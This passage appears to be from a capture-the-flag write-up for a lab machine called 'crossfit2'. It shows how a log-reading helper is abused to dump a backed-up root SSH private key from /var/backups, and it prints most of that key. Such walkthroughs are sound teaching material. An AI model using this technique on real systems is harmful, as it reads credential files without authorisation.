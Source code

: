 ```php
missing: ./var/cron/log
missing: ./var/log/authlog
missing: ./var/log/secure
missing: ./var/log/wtmp
missing: ./var/log/lastlog
mtree special: exit code 2

======
/etc/dhclient.conf diffs (-OLD  +NEW)
======
--- /dev/null   Thu Aug 12 01:31:07 2021
+++ /etc/dhclient.conf  Thu Mar 18 13:25:53 2021
@@ -0,0 +1 @@
+ignore domain-name, domain-name-servers, domain-search;


======
/etc/hostname.vmx0 SHA-256 checksums
======
OLD: 6e053caf1ef5e18c7ec678166fa73c3d17fd3c717193b36b80e4f374fe81a8ab
NEW: d32df3bccac7b83e88dc1c90c343109e302bc832d1eef842282084fa7ffb63ee
sendmail: cannot create temporary file /var/spool/smtpd/offline/1628728269.GYlmnaPY3G: Operation not permitted
```

But using it on a file outside of `/var` it fails.

```php
crossfit2$ log /etc/passwd

* LogReader v0.1

[-] Log file not found!
```

Looking for interesting files in the `backup` directory under `/var` we can retrieve the backed up root ssh key using the naming convention of replacing `/` with `_` and adding a `.current`.

```php
crossfit2$ ltrace log /var/backups/root_.ssh_id_rsa.current 

* LogReader v0.1

[*] Log size: 2610

-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEA8kTcUuEP05YI+m24YdS3WLOuYAhGt9SywnPrBTcmT3t0iZFccrHc
2KmIttQRLyKOdaYiemBQmno92butoK2wkL3CAHUuPEyHVAaNsGe3UdxBCFSRZNHNLyYCMh
3AWj3gYLuLniZ2l6bZOSbnifkEHjCcgy9JSGutiX+umfD11wWQyDJy2QtCHywQrKM8m1/0
5+4xCqtCgveN/FrcdrTzodAHTNoCNTgzzkKrKhcah/nLBWp1cv30z6kPKBKx/sZ5tHX0u1
69Op6JqWelCu+qZViBy/99BDVoaRFBkolcgavhAIkV9MnUrMXRsHAucpo+nA5K4j7vwWLG
TzLOzrBGA3ZDP7w2GD7KtH070CctcjXfx7fcmhPmQDBEg4chXRBDPWzGyvKr7TIEMNVtjI
Ug4kYNJEfSef2aWslSfi7syVUHkfvUjYnW6f2hHprHUvMtVBHPvWQxcRnxvyHuzaXetSNH
ROva0OpGPaqpk9IOseue7Qa1+/PKxD4j87eCdzIpAAAFkDo2gjg6NoI4AAAAB3NzaC1yc2
EAAAGBAPJE3FLhD9OWCPptuGHUt1izrmAIRrfUssJz6wU3Jk97dImRXHKx3NipiLbUES8i
jnWmInpgUJp6Pdm7raCtsJC9wgB1LjxMh1QGjbBnt1HcQQhUkWTRzS8mAjIdwFo94GC7i5
4mdpem2Tkm54n5BB4wnIMvSUhrrYl/rpnw9dcFkMgyctkLQh8sEKyjPJtf9OfuMQqrQoL3
jfxa3Ha086HQB0zaAjU4M85CqyoXGof5ywVqdXL99M+pDygSsf7GebR19LtevTqeialnpQ
rvqmVYgcv/fQQ1aGkRQZKJXIGr4QCJFfTJ1KzF0bBwLnKaPpwOSuI+78Fixk8yzs6wRgN2
Qz+8Nhg+yrR9O9AnLXI138e33JoT5kAwRIOHIV0QQz1sxsryq+0yBDDVbYyFIOJGDSRH0n
n9mlrJUn4u7MlVB5H71I2J1un9oR6ax1LzLVQRz71kMXEZ8b8h7s2l3rUjR0Tr2tDqRj2q
qZPSDrHrnu0GtfvzysQ+I/O3gncyKQAAAAMBAAEAAAGBAJ9RvXobW2cPcZQOd4SOeIwyjW
fFyYu2ql/KDzH81IrMaxTUrPEYGl25D5j72NkgZoLj4CSOFjOgU/BNxZ622jg1MdFPPjqV
MSGGtcLeUeXZbELoKj0c40wwOJ1wh0BRFK9IZkZ4kOCl7o/xD67iPV0FJsf2XsDrXtHfT5
```